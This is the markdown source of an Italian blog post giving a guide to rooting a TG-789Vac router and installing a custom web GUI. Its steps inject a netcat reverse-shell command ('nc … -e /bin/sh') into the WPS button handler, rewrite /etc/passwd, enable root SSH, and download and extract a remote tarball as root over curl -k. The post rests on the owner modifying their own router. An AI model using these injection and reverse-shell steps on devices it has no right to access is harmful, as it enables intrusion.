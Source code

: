 ```yaml
---
layout: post
title:  "ROOT e Custom GUI per TG-789Vac"
date:   2019-02-25 00:00:00 
---
```

Guida al Root del dispositivo, con firmware UNO aggiornato all'ultima versione (17.2). 
Il router in questione è quello bianco della foto, in Italia viene distribuito da Tim o Fastweb per abbonamenti vdsl.
<a href="/media/agtot/router.png"><img src="/media/agtot/router.png" alt="Agpwi Photo" style="float: right;" />  


Se non hai ancora installato il firmware UNO eccoti la guida: [Come Flashare UNO TG-789Vac]({% post_url 2018-08-05-AGTOT-FW %})


><span style="color:red">**DISCLAIMER**</span>: Non mi ritengo responsabile per eventuali router brickati, eventuali gatti morti o guerre termonucleari dovute ad un malfunzionamento del suddetto prodotto.  

><span style="color:red">**NOTA**</span>: La procedura viene eseguita su Linux  



**Procedimento:**

1. Impostare netcat in ascolto sul proprio pccon: ```nc -lvvp 1337```

2. Loggarsi sul router in SSH usando come credenziali:
```
        -Username: engineer
        -Password: quella usata per loggarsi come admin nella webui
```
        
2. Dare questo comando: ```set uci.button.button.@wps.handler 'nc 192.168.1.X 1337 -e /bin/sh'```

3. Premere il pulsante laterale per far partire netcat 

4. Dare questi comandi sulla shell netcat aperta:
```
    set uci.button.button.@wps.handler 'wps_button_pressed.sh'
    sed -i 's#root:/bin/false#root:/bin:ash#' /etc/passwd
    uci set dropbear.lan.RootPasswordAuth='on'
    uci set dropbear.lan.RootLogin='1'
    uci commit
    /etc/init.d.dropbear restart
    passwd
```
Con il comando ```passwd``` chiedera' di inserire la password dell'utente root. 

5. Fine. Ora e' possibile loggarsi in SSH come root/password 


**Procedura per installare la gui di ansuel:**

><span style="color:red">**NOTA**</span>: Per evitare vari problemi alla ui, e' consigliabile aver gia' configurato il modem per la navigazione in internet.

1. Loggarsi sul router in SSH come root ( vedi sopra)

2. Dare i seguenti comandi:
```
    curl -k https://raw.githubusercontent.com/Ansuel/gui-dev-build-auto/master/GUI.tar.bz2 --output /tmp/GUI.tar.bz2
    bzcat /tmp/GUI.tar.bz2 | tar -C / -xvf -
    /etc/init.d/rootdevice force
```
A procedura finita, e' consigliabile riavviare il modem con ```reboot```

3. Godersi la nuova ui! (creata da ANSUEL, pagina [GitHub](https://github.com/Ansuel/tch-nginx-gui) )


**Fine**


<div id="disqus_thread"></div>
<script>

/**
*  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
*  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables*/
/*
var disqus_config = function () {
this.page.url = https://pietrotti97.com/pagine/a-router/mod-fw/2019/02/25/AGTOT-root.html;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = agtotroot; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
*/
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://pietrotti97.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>




